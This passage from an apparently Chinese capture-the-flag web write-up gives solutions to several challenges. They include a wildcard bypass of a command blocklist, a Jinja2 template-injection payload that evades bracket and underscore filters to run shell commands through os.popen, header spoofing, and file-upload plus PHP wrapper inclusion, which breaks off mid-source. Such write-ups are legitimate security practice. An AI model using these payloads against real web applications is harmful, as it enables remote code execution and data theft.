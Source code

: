 最终payload:  
```
?b=a[0]=s878926199a&which=flag
num=2024.9
```
### 2、1z_php
我们输入的命令不能含有一下字符，用通配符可以绕过  
```php
['cat', 'tac', 'head', 'nl', 'more', 'less', 'tail', 'vi', 'sed', 'od']
```
payload:  `J=/bin/ca* /f14g`  
### 3、ezSSTI
经过尝试得知:  本题过滤了`[`中括号和`_`下划线,参考文章https://blog.csdn.net/weixin_52635170/article/details/129850863  
payload:  
```
{%set pop=dict(po=a,p=b)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(24)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set popen=dict(popen=a)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set ch=dict(ch=a,r=b)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(ch)%}
{%set command=char(99)%2bchar(97)%2bchar(116)%2bchar(32)%2bchar(47)%2bchar(102)%2bchar(108)%2bchar(97)%2bchar(103)%}
{%set result=(lipsum|attr(globals))|attr(get)(shell)|attr(popen)(command)%}
{%print result%}
```
传入得到flag:  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109163441.png)  
### 4、25时晓山瑞希生日会
按照题目要求,依次在http请求头加上:    
```http
User-Agent: Project Sekai
X-Forwarded-For: 127.0.0.1
Date: Sun, 27 Aug 2024 05:00:00 GMT
```
最后的时间需要尝试,本来以为时题目提示的`9.15`浪费了很长时间,尝试出的时间是`8.27`,传入得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109165142.png)    
### 5、小蓝鲨的秘密
开启抓包，进入题目环境会进行302跳转，查看`Response`得到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109190907.png)  
### 6、UP!UPloader
本题文件上传但并不过滤内容,`.php`文件也可以正常上传，但是上传后不会告诉你文件位置，需要我们想办法，上传后提示`include.php`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109194808.png)  
访问发现可以进行文件包含,我们使用php伪协议来读取源码看看能否找到上传后的文件位置  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109195023.png)  
解码后得到源码:  
```php
<?php
error_reporting(0);
$file = $_FILES['file'];
if (isset($file) && $file['size'] > 0) {
    $ext = pathinfo($file['name'], PATHINFO_EXTENSION);
    $name = pathinfo($file['name'], PATHINFO_FILENAME);
    $dir_name = $name . '.' . $ext;
    $upload_dir = './uploads/';
    if (!is_dir($upload_dir)) {
```